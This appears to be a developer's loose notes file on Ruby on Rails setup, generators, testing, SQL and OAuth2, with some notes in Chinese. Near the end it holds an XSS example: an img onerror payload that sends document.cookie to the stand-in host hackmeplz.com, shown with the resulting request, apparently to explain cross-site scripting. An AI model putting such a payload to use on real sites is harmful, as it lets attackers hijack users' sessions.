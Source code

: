sudo gem install pg -v 0.17.1
checking for pg_config... no

##FIX
Install the postgresql-devel package, this will solve the issue of pg_config missing.

Ubuntu systems:
sudo apt-get install libpq-dev

RHEL systems:
yum install postgresql-devel

Mac:
brew install postgresql


##################################################################
rails new myapp --database=postgresql


# Begin logic
myproducts = Product.find(:all)
require 'pp'
pp myproducts



##Customer
id
first_name
last_name
user_name

##Category
id
name

##Product Categories
eCommerce Product Catalog allows to define unlimited amount of product categories. Product categories can be hierarchical or not.

To add or edit product categories go to Dashboard > Products > Product Categories. The edit screen allows to define:

Category name – this is the title of product category page
Slug – this is the URL of product category page
Parent – set parent of hierarchical category
Description – write the description for product category. The description shows up under the category name on product page.

##google: where to buy electronics

##SELECT * FROM comments AS c WHERE '1/4/5/7' LIKE c.path||'%';
##'1/4/5' '1/4' '1' will match
double bars are concatination:
select 'hello'||' '||'world' from dual;
yields=> 'hello world'



rails g model Product
rails g model Order
rails g migration add_sessions_table
rails g model Cart
rails g model LineItem
rails g model Customer

###############################################
>gem install rails -v=2.3.8
##gem sources --add http://gems.ruby-china.org/ --remove https://rubygems.org/
>gem sources -l
*** CURRENT SOURCES ***

http://gems.ruby-china.org/

> gem install rails -v=3.2.1
ERROR:  Error installing rails:
        invalid gem: package is corrupt, exception while verifying: undefined me
thod `size' for nil:NilClass (NoMethodError) in C:/Ruby22/lib/ruby/gems/2.2.0/cache/thread_safe-0.3.5.gem
=>delete the directory cache,errors will not appear when reexecute gem install

##rake db:migrate RAILS_ENV=test
##rails s -e test
>rake test:units
>rake test:functionals
>ruby -Itest test/unit/product_test.rb
>ruby -Itest test/unit/product_test.rb -n product_attributes_must_not_be_empty
>ruby -Itest test/unit/product_test.rb -n /attributes/

##rake spec
##rspec spec/models/product_spec.rb


>rails g scaffold Product title:string description:text image_url:string price:decimal
>rails g controller store index
>rails g session_migration
>rake db:migrate
>rails g scaffold cart
>rails g scaffold line_item product_id:integer cart_id:integer
>rails g migration add_quantity_to_line_item quantity:integer
>rails g migration combine_items_in_cart
>rails g scaffold order name:string address:text email:string pay_type:string
>rails g migration add_order_id_to_line_item order_id:integer
>rails g scaffold user name:string hashed_password:string salt:string
>rails g controller sessions new create destroy
>rails g controller admin index

##rake db:create RAILS_ENV=production
##rails s -e production 
##bundle exec rake assets:precompile RAILS_ENV=production
###############################################

##$ rails g task my_exercise load_data generate_delta_index
create lib/tasks/my_exercise.rake

##$ rake -T | grep my_exercise

运行RSpec的生成器
rails generate rspec:install  

生成器创建了几个新文件，分别是：
.rspec – 用于配置 rspec 命令行的配置文件，默认包含 – colour 来启用RSpec输出文字高亮。
spec – 该目录用于存放所有模型变量，控制器，视图，和项目中其它的specs。
spec/spec_helper.rb – 该文件会在每个spec执行时被调用。该文件设置了测试变量，并包含项目级别RSpec配置项，加载引用文件等等。

##Don't know how to build task=>
##add <require 'rake'> to Rakefile

rake spec

<%= link_to new_task_path, remote: true do %>
  <button class="btn btn-default">New</button>
<% end %>

<%= link_to task, remote: true, method: :delete,  data: { confirm: 'Are you sure?' } do %>
  <button>Delete</button>
<% end %>

url_for @book
###############################################
##In Rails 3, when a resource create action fails and calls render :new, why must the URL change to the resource's index url?

I just started with the Rails-Tutorial and had the same problem. The solution is just simple: If you want the same URL after submitting a form (with errors), just combine the new and create action in one action.

Here is the part of my code, which makes this possible (hope it helps someone^^)

**routes.rb** (Adding the post-route for new-action):
...
    resources :books
    post "books/new"
...

**Controller:**

...
def create
  @book = Book.new(book_params)

  if @book.save
    # save was successful
    print "Book saved!"

    else
    # If we have errors render the form again   
    render 'new'
  end
end

def new 
  if book_params
    # If data submitted already by the form we call the create method
    create
    return
  end

  @book = Book.new
  render 'new' # call it explicit
end

private

def book_params
  if params[:book].nil?  || params[:book].empty?
    return false
  else
    return params.require(:book).permit(:title, :isbn, :price)
  end
end

**new.html.erb:**

<%= form_for @book, :url => {:action => :new} do |f| %>
  <%= f.label :title %>
  <%= f.text_field :title %>
  <%= f.label :isbn %>
  <%= f.text_field :isbn %>
  <%= f.label :price %>
  <%= f.password_field :price %>
  <%= f.submit "Save book" %>
<% end %>
###############################################
http://site.com/callback#access_token=rBEGu1FQr54AzqE3Q&
refresh_token=rEbkldjfk45YD&expires_in=3600
var hash=document.location.hash;
var match=hash.match(/access_token=(\w+)/);

User
Client 
AccessToken 
RefreshToken 

Securing RESTful APIs using OAuth2 and OpenID Connect
openID + Oauth2
fetch the access token=>
Access Token Endpoint
client_id
client_secret
grant_type=client_credentials

$.ajax({
  url: resource_uri,
  beforeSend: function(xhr){
    xhr.setRequestHeader('Authorization','OAuth'+token);
    xhr.setRequestHeader('Accept','application/json');
  },
  success: function(response){
    //use response object
  }
});

###################################################
<img src=xonerror="document.body.appendChild(function(){
var a=document.createElement('img');
a.src='https://hackmeplz.com/yourCookies.png/?cookies='+document.cookie;
return a }())" >

GET
https://hackmeplz.com/yourCookies.png/?cookies=SessionID=123412341234

##XSS Attack
##Same-Origin-Policy

##JWT + Refresh Tokens=OAuth2 ?

Exercise::Application.routes.draw do
	scope module::v1,constraints:ApiConstraint.new(version: 1) do
		resources :articles,only: :index
	end

  scope module::v2,constraints:ApiConstraint.new(version: 2) do
		resources :articles,only: :index
	end
end

##Track Client Builds
What happens when you Need/Want to stop supporting a version?

curl http://localhost:3000/api/builds/457
[{"support_level": "active"}]

curl http://localhost:3000/api/builds/457
[{"support_level": "supported"}]

curl http://localhost:3000/api/builds/432
[{"support_level": "deprecated"}]

curl http://localhost:3000/api/builds/289
[{"support_level": "unsupported"}]


rails g controller Data --no-helper --no-assets --no-javascript

PostgreSQL calculate difference between rows
PostgreSQL calculate difference between columns










